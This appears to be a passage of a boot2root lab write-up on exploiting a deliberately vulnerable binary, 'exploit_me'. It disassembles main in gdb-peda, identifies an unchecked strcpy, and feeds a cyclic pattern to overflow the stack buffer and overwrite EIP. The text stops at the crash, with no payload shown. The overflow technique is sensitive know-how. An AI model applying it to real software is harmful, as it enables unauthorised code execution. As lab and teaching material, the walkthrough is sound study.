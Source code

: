 Nothing clear to read in the mail directory. Let's exploit the binary

```
$ ./exploit_me 
$ ./exploit_me coucou
coucou
$ ./exploit_me coucou coucou
coucou
```

The program print the first argument

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	    push   ebp
   0x080483f5 <+1>:	    mov    ebp,esp
   0x080483f7 <+3>:	    and    esp,0xfffffff0
   0x080483fa <+6>:	    sub    esp,0x90
   0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    eax,0x1
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>:	add    eax,0x4
   0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
   0x08048429 <+53>:	mov    DWORD PTR [esp],eax
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    eax,0x0
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
```

There is a strcpy, try to overflow

```
(gdb-peda)$ pattern create 200 file
Writing pattern of 200 chars to filename "file"

(gdb-peda)$ r $(cat file)
Starting program: /home/nico/42/boot2root/zaz/exploit_me $(cat file)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7fa0000 --> 0x1e4d6c 
EDI: 0xf7fa0000 --> 0x1e4d6c 
EBP: 0x41514141 ('AAQA')
ESP: 0xffffd430 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41416d41 ('AmAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41416d41
[------------------------------------stack-------------------------------------]
0000| 0xffffd430 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
```